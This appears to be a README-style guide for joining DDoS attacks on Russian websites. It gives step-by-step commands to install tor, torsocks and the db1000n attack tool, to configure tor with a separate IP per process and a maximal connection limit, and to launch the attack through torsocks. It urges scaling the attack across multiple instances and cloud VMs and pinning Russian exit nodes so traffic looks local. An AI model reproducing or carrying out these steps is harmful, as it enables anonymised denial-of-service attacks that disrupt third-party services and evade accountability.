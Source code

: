 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.21/db1000n_0.8.21_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated. 
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
